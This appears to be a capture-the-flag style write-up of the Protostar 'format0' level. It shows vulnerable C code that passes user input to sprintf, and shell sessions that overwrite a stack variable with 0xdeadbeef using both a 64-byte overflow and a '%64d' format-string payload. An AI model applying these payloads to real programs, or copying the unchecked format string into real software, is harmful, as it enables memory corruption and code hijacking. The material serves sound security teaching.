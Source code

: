 #### Format0

###### About

- This level introduces format strings, and how attacker supplied format strings can modify the execution flow of programs.
- Hints
	- This level should be done in less than 10 bytes of input.
	- “Exploiting format string vulnerabilities”
- This level is at ``/opt/protostar/bin/format0``

``format0.c``

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void vuln(char *string)
{
  volatile int target;
  char buffer[64];

  target = 0;

  sprintf(buffer, string);
  
  if(target == 0xdeadbeef) {
      printf("you have hit the target correctly :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```

###### Solution

```sh
user@protostar:/opt/protostar/bin$ ./format0 AAAA
user@protostar:/opt/protostar/bin$
```

```sh
user@protostar:/opt/protostar/bin$ ./format0 $(python -c "print 'A'*64 + '\xef\xbe\xad\xde'")
you have hit the target correctly :)
user@protostar:/opt/protostar/bin$
```

```sh
user@protostar:/opt/protostar/bin$ printf "%10d\n"
         0
user@protostar:/opt/protostar/bin$
```

```sh
user@protostar:/opt/protostar/bin$ printf "%20d\n"
                   0
user@protostar:/opt/protostar/bin$
```

```sh
user@protostar:/opt/protostar/bin$ printf "%30d\n"
                             0
user@protostar:/opt/protostar/bin$
```

```sh
user@protostar:/opt/protostar/bin$ ./format0 `python -c "print '%64d\xef\xbe\xad\xde'"`
you have hit the target correctly :)
user@protostar:/opt/protostar/bin$
```